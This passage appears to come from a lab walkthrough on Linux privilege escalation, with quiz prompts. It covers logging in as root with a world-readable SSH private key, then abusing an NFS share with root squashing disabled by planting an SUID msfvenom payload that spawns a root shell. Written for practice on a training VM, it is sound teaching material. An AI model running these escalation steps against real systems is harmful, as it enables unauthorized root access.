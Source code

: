 `ls -l /.ssh`

Note that there is a world-readable file called **root_key**. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the **root_key** file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (change the IP accordingly):

`ssh -i root_key root@10.10.10.10`

**Remember to exit out of the root shell before continuing!**

1. Read and follow along with the above.

`No answer needed`

## NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

**Remember to exit out of the root shell before continuing!**

1. What is the name of the option that disables root squashing?

* [NFS, no_root_squash and SUID - Basic NFS Security](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)
